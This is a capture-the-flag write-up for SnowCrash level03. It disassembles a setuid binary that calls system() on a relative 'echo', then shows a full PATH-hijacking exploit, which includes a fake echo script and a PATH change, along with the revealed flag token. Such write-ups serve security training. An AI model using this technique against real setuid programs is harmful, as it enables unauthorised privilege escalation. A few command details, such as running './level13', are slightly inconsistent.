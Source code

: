 # level03

## Recognition

There is an executable named level03 that is suid and sgid on flag03 at the home directory of level03.

Using `readelf` we can see the .rodata section of the program and and dump its content.

```bash
level03@SnowCrash:~$ readelf -x .rodata level03

Hex dump of section '.rodata':
  0x080485d8 03000000 01000200 2f757372 2f62696e ......../usr/bin
  0x080485e8 2f656e76 20656368 6f204578 706c6f69 /env echo Exploi
  0x080485f8 74206d65 00                         t me.
```

We can also disassemble it with `objdump` to see what is happening in the main function. 
```bash
level03@SnowCrash:~$ objdump -M intel -D level03
[...]
080484a4 <main>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	83 e4 f0             	and    esp,0xfffffff0
 80484aa:	83 ec 20             	sub    esp,0x20
 80484ad:	e8 ee fe ff ff       	call   80483a0 <getegid@plt>
 80484b2:	89 44 24 18          	mov    DWORD PTR [esp+0x18],eax
 80484b6:	e8 d5 fe ff ff       	call   8048390 <geteuid@plt>
 80484bb:	89 44 24 1c          	mov    DWORD PTR [esp+0x1c],eax
 80484bf:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484c3:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484c7:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484cb:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 80484cf:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484d3:	89 04 24             	mov    DWORD PTR [esp],eax
 80484d6:	e8 05 ff ff ff       	call   80483e0 <setresgid@plt>
 80484db:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484df:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484e3:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484e7:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 80484eb:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484ef:	89 04 24             	mov    DWORD PTR [esp],eax
 80484f2:	e8 89 fe ff ff       	call   8048380 <setresuid@plt>
 80484f7:	c7 04 24 e0 85 04 08 	mov    DWORD PTR [esp],0x80485e0
 80484fe:	e8 ad fe ff ff       	call   80483b0 <system@plt>
 8048503:	c9                   	leave
[...]
```

We can see that this program will unconditionally always execute the `system()` call, with the string previously seen on the .rodata section.

</br>
</br>

## Exploitation

Since we know that the program is executing `system("/usr/bin/env echo Exploit me.")`, we can see that it uses the `echo` program without a absolte path reference to it. We can then try to write a bash script executing the `getflag` command

```bash
level03@SnowCrash:~$ chmod +rwx .
level03@SnowCrash:~$ cat << EOF > echo
#!/bin/bash
getflag
EOF
```

The `system` call will run the command with bash thus it will use the $PATH variable to find the programs to execute. As we have compiled a program named `echo` in our home directory, we can then modiffy the $PATH variable to add the path of the home before the other pathes.
```bash
level03@SnowCrash:~$ export PATH=$HOME:$PATH
```

Now we only have to run the program and get the flag
```bash
level03@SnowCrash:~$ ./level13
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```